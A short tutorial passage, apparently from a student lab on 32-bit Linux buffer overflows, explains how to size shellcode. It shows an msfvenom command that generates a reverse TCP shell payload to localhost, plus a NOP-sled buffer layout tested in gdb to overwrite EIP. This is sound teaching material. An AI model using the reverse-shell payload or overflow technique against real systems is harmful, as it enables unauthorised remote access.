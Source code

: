 # Shellcode

There are many ways to make shellcode like Donut or msfvenom. When using shellcode we need to now how big it will be.

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
```

Our payload is 68 bytes, take a larger range if shellcode increase later. We can insert `no operation instruction` or (NOPS) before our shellcode begins so its executed cleanly.

1. We need 1040 bytes to get to the EIP
2. Use additional 100 bytes of NOPs
3. 150 for our shellcode.

```
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4
```

How much space we have available to insert our shellcode.

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

